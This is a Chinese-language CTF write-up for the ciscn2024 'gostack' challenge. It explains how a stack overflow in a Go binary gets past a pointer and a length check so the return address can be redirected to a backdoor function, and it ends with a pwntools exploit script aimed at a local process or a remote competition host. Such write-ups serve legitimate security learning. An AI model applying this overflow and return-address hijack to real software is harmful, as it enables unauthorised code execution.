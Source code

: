 ```yaml
---
title: ciscn2024 - gostack 
date: 2024/5/23 00:47:00
updated: 2024/7/25 12:34:56
tags:
    - go
    - rop
thumbnail: /assets/ciscn2024/bypass.png
excerpt: 通过栈溢出控制返回地址，利用Go程序的漏洞成功执行命令获取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|go    |1.18.1|

## 解题思路

一道简单的go的栈溢出题

经测试，发现输入0x100个字符后就会报错非法内存访问，调试器跟一下，
发现原来`rbp - 0xc8`的位置上是一个go指针，随便填一个合法地址继续溢出写，
会报什么超出限制，发现`rbp - 0xc0`的位置上是一个较小的值，填0后继续溢出写，
就可以成功控制返回地址了

实际上错误都是由`Fprintf`引发的，第一次解引用了错误的地址，第二次覆盖了一个过大的`len`，
如图所示

![bypass](/assets/ciscn2024/bypass.png)

网上很多wp写rop的链子，很怪，程序不是提供了后门吗。。直接把返回地址修改成`&main.main.func2`，
就可以任意执行一个shell命令，输入`cat flag`就可以获得flag

![success](/assets/ciscn2024/success.png)
## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './gostack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x4a09d8\nb *0x4a0a88\nc')
    else:
        sh = remote('8.147.132.179', 39522)
    backdoor = 0x4a05a0

    sh.sendline(b'0'*0x100 + p64(0xc000012040) + p64(0) + b'0'*0xc0 +
                p64(backdoor))

    sh.interactive()
```
